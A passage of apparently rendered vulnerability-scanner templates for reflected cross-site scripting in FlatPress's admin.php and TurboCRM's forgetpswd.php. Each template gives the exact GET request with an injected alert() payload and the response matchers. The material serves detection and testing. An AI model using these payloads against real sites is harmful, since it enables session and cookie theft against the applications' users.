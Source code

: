 ```
GET /admin.php?p=static&action=write&page=%22onfocus%3d%22alert%28document.cookie%29%22autofocus%3d%22 HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- words
  1. value=""onfocus="alert(document.cookie)"autofocus=""
  2. FlatPress
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# TurboCRM - Cross-Site Scripting

## Description

- TurboCRM contains a cross-site scripting vulnerability which allows a remote attacker to inject arbitrary JavaScript into the response returned by the application.
- severity - high
- tags - xss,turbocrm

## Requests

- Method - GET

### URL

- {{BaseURL}}/login/forgetpswd.php?loginsys=1&loginname=%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E

### Matchers

**Type - word**

- words
  1. ">\<script>alert(document.domain)\</script>
- part - body
